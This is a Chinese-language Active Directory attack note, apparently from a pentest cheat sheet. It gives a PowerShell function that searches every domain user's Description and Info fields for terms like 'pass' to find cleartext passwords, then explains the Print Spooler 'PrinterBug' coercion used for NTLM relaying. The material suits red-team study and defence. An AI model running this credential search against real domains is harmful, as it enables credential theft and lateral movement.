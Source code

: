 

攻击：通过在 `Description` 或 `Info` 字段中查找特定搜索词/字符串来查询整个域

```powershell
# 创建函数：搜索用户明文信息
Function SearchUserClearTextInformation
{
# 定义两个参数，一个参数为，一个参数为字符串对象
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )
# 
    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms)
    {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}
```

```powershell
# 运行脚本来寻找字符串 pass
SearchUserClearTextInformation -Terms "pass"
```



```
sed -i 's/\s\s+/\n/g' cert.pem
```





# Print Spooler & NTLM Relaying

打印后台处理程序是默认启用的一项旧服务，即使使用最新的 Windows 桌面和服务器版本也是如此。 
2018 年，当 `Lee Christensen` 发现 `PrinterBug` 时，该服务成为流行的攻击媒介。函数 RpcRemoteFindFirstPrinterChangeNotification 和 RpcRemoteFindFirstPrinterChangeNotificationEx 可能被滥用来强制远程计算机执行与其可以到达的任何其他计算机的连接，而且连接将携带身份验证信息作为 `TGT` 。因此，任何域用户都可以强制 `RemoteServer$` 对任何计算机进行身份验证。微软对 `PrinterBug` 的立场是它不会被修复，因为这个问题是“设计使然”的。
